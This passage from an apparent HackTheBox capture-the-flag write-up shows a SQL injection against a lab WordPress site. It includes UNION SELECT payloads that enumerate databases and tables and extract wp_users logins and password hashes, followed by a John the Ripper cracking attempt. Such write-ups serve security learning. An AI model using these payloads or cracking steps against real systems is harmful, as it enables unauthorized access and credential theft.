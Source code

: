 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604175439.png)

The Proof-of-Concept's payload works!!

Let's modify the payload and extract it's database data!

**Enumerate database:**
```sql
0 UNION SELECT NULL,GROUP_CONCAT(schema_name),NULL FROM information_schema.schemata
```

- Database: `information_schema`,`webfolio`

We can assume that database `webfolio` is the WordPress's MySQL database.

**Extract username and password hash from table `wp_users`:**
```sql
0 UNION SELECT NULL,CONCAT(user_login,CHAR(58),user_pass),NULL FROM wp_users
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604180613.png)

Found `admin`'s password hash! Let's crack it!

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|18:05:57(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[...]
0g 0:00:05:21 86.84% (ETA: 18:12:06) 0g/s 38969p/s 38969c/s 38969C/s 3666664..36637977
```

Nope...

**Then, I found tables `wf_*` via the following payload:**
```sql
0 UNION SELECT NULL,CONCAT(table_schema,CHAR(58),table_name),NULL FROM information_schema.tables LIMIT 1 OFFSET 61
```

Those tables are for another `webfolio` WordPress CMS.

However, I tried to extract usernames and password hashes, there's no user at all.
